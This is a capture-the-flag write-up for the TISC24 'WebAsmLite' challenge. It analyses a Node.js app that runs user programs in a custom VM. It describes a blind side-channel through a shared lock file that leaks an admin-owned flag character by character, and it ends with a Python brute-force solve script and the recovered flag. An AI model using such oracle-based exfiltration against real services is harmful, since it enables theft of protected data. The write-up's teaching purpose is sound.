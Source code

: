 # Level 07 - WebAsmLite

![](./assets/level-7-chall-desc.png)

## Setting up Local Environment

After downloading the attached file, it appears to be a simple Node.js application. The first step is to set up the project locally, which will allow us to easily debug and explore the application.

```sh
cd webasmvm
npm init -y
npm i express
npm i express-session
export HTTP_PORT=3000
export SESSION_SECRET=secret
export TISC_FLAG=TISC{FAKE_FLAG}
node server.js
```

## Analysis

This Node.js application uses the Express framework and sets up two routes (`/submitdevjob` and `/requestadmin`) that allow users to submit programs for execution in a custom virtual machine called `SMOLVM`, which supports a small set of instructions. Each instance of `SMOLVM` has its own isolated registers, memory, and file system, called `SMOLFS`.

Each file in `SMOLFS` is referred to as a `SMOLFILE`, containing metadata such as the file owner, privilege level, and the file's content. Users can create, read, and destroy `SMOLFILE`s. An interesting behavior to note is that when a `SMOLVM` attempts to read a file that either does not exist or if the user lacks sufficient permissions, the first register in the `SMOLVM` is set to `-1`.

In this application, there are two users:

- `publicuser`, with a privilege level of `1`
- `adminuser`, with a privilege level of `42`

Below is the HTTP POST handler for the `/requestadmin` endpoint:

```javascript
app.post("/requestadmin", (req, res) => {
  const { prgmstr } = req.body;

  const fs = new SMOLFS();
  fs.createFile(
    adminuser,
    "flag.txt",
    new TextEncoder().encode(process.env.TISC_FLAG)
  );

  const adminVM = new SMOLVM(fs);
  adminVM.execute(adminuser, prgmstr);
  const userVM = new SMOLVM(fs);
  const userResult = userVM.execute(publicuser, prgmstr);
  const output = {
    timestamp: new Date().toISOString(),
    adminResult: "REDACTED",
    userResult: userResult,
  };
  res.json(output);
});
```

When a request is made to the `/requestadmin` endpoint, the application creates a `SMOLFS` instance, which acts as a "shared file system." In this shared file system, the endpoint creates a file containing the flag, with the `adminuser` as the owner. Afterward, the `adminuser` executes the program of our choice, followed by the same program being executed by the `publicuser`. However, only the state (containing PC, registers and memory) of the `publicuser`'s `SMOLVM` is returned. Given that the `publicuser` does not have access to the flag file created by the `adminuser`, I believe we have to find a way to exfiltrate the flag into the user's result, bypassing the lack of direct access to the flag.

After much experimentation, I came up with a solution similar to the technique used in Blind SQL Injection. We can attempt to exfiltrate the flag one character at a time and extend this process to extract the entire flag.

The idea is to first get the `adminuser` to read the flag file, which will be loaded into the `SMOLVM` memory. We can then check if the flag starts with a specific character by iterating through all ASCII printable characters and comparing each one to the corresponding character in the `adminuser`'s memory. To perform the comparison, we load both characters (the guessed character and the actual flag character) into registers and use the `SUB` instruction to subtract them. Then, the `JZ` instruction is used to determine if the result is zero (i.e., the characters match). If the characters do not match, the `adminuser` will create a file (e.g. `lock.txt`) to indicate that the flag character was not found (i.e., the subtraction result is not zero). If the characters do match, the `adminuser` will not create a file. After this, the `adminuser` will attempt to read the `lock.txt` file.

Next, the `publicuser` will attempt to read the flag (but since it does not have the necessary permissions) then it will perform the same arithmetic operations on the registers. However, since the characters will never match, the `publicuser` will always create the `lock.txt` file and read it.

The key detail here is that if the `adminuser` does not find the flag character, the `lock.txt` file is created. When it's the `publicuser`'s turn to create the file, it cannot, because the file already exists. As a result, when the `publicuser` tries to read the file, it will result in `-1` being placed in the first register of the `publicuser`'s `SMOLVM`. On the other hand, if the `adminuser` does find the flag character and does not create the `lock.txt` file, the `publicuser` will be able to create the file successfully and read it without any errors. Therefore, we can determine if a guessed character is correct by checking the value of the first register of the `publicuser`'s `SMOLVM`.

Therefore, our WebASMLite script should look something like this:

```
prgmstr=NOP;
READ:flag.txt;
IMM:0:0;
IMM:7:XXX;
LOAD:6:7;
IMM:5:YYY;
SUB:4:5:6;
JZ:4:2;
WRITE:lock.txt;
READ:lock.txt;
HALT;
```

- `XXX` represents the index of the flag being exfiltrated
- `YYY` represents the ASCII decimal value of the guessed flag character

## Solution

Here is the solve script:

```python
import requests
import string

flag = ""

for i in range(32, 64):
    for j in string.printable:
        payload = f"""prgmstr=NOP;
READ:flag.txt;
IMM:0:0;
IMM:7:{i};
LOAD:6:7;
IMM:5:{ord(j)};
SUB:4:5:6;
JZ:4:2;
WRITE:lock.txt;
READ:lock.txt;
HALT;
"""
        res = requests.post("http://chals.tisc24.ctf.sg:50128/requestadmin", headers={"Content-Type": "application/x-www-form-urlencoded"}, data=payload)
        result = res.json()
        if result["userResult"]["vm_state"]["reg"].split(",")[0] == "0":
            flag += j
            print(j, end="", flush=True)
            if j == "}":
                exit()
            break
```

Flag: `TISC{le4ky_l3aky_1f8e3ba511ee!}`
